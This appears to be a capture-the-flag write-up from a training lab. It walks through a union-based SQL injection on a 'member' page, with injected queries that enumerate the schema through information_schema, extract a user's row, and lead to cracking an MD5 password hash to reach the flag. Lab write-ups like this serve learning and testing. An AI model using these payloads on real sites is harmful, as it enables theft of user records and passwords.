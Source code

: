 # UNION BASED SQL INJECTION

## Flag
```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## Discovery
go to
```
 http://{IP_ADDRESS}/index.php?page=member
```
tryed a simple sql statement 
```
1 OR 1=1 
The SQL above is valid and will return ALL rows from the "users" table, since OR 1=1 is always TRUE.
```

Retrieve columns names with the table they belong to:
```
-1 UNION SELECT table_name,concat(column_name) FROM information_schema.COLUMNS 
```

Retrieve the id of the user (flag):
```
-1 UNION SELECT NULL, user_id FROM users
```

started investagting on that user (flag) by geting all its information each time changing col1, col2:
```
-1 UNION SELECT [col1_name], [col2_name] FROM db_default WHERE user_id=5
```

| user_id | first_name | last_name | town | country | planet | commentaire                                                                   | countersign |
| ------- | ---------- | --------- | ---- | ------- | ------ | ----------------------------------------------------------------------------- | ----------- |
|   5     | flag       | GetThe    |  42  |    42   |   42   | Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28 |

## Helpers:
- [retrieve data from db](https://www.sqlinjection.net/table-names/)
- [dcode - cipher identifier](https://www.dcode.fr/cipher-identifier)
- [md5decrypt - md5](https://md5decrypt.net/en/)
